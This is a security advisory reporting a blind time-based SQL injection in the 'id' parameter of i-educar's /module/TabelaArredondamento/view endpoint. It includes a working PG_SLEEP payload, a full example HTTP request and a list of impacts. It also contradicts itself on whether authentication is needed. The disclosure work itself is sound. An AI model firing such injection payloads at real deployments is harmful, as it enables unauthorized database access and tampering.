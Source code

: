 # SQL Injection (Blind Time-Based) Vulnerability in `id` Parameter on `/module/TabelaArredondamento/view` Endpoint

---

## Summary

A SQL Injection vulnerability was identified in the `/module/TabelaArredondamento/view` endpoint of the _i-educar_ application, specifically in the `id` parameter. This vulnerability allows attackers to execute arbitrary SQL commands on the backend database, potentially compromising the confidentiality, integrity, and availability of application data.

---

## Details

**Vulnerable Endpoint:** `/module/TabelaArredondamento/view`  
**Parameter:** `id`

To reach the vulnerable functionality, it is necessary to navigate to:  
**Escola > Cadastros > Tipos > Regras de Avaliação > Tabelas de Arredondamento**.

![[Pasted image 20250817012555.png]]

Additionally, exploiting this vulnerability requires an account with permissions to **create/list the "Escola" menu**.

The application fails to properly validate and sanitize user input in the `id` parameter. As a result, attackers can inject crafted SQL payloads that are executed directly by the database. This could allow database enumeration, data exfiltration, modification, or denial of service via time-based delays.

---

## PoC

**Payload:**

`'+AND+7097=(SELECT+7097+FROM+PG_SLEEP(5))+AND+'WqeR'='WqeR`

This payload triggers a **5-second delay** in the server response, demonstrating that the parameter is vulnerable to blind time-based SQL injection.

**Example Request:**
```
GET /module/TabelaArredondamento/view?id=1'+AND+7097=(SELECT+7097+FROM+PG_SLEEP(5))+AND+'WqeR'='WqeR HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Referer: http://localhost/module/TabelaArredondamento/index?tipo_nota=1
Cookie: [COOKIE]
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
```

![[Pasted image 20250817012946.png]]

Observe the increased server response time, confirming that the injected SQL command was executed.

---

## Impact

- **Unauthorized data access:** Reading sensitive information such as credentials, personal data, or configuration details
    
- **Database enumeration:** Extracting database schema, tables, and column details
    
- **Data manipulation:** Adding, modifying, or deleting database records
    
- **Denial of Service (DoS):** Using time-based queries to impact system availability
    
- **Potential escalation to RCE:** If combined with other vulnerabilities and specific database features
    

This vulnerability affects all users who can interact with the vulnerable parameter, and it can be exploited remotely without prior authentication if the endpoint is exposed.

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr)

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)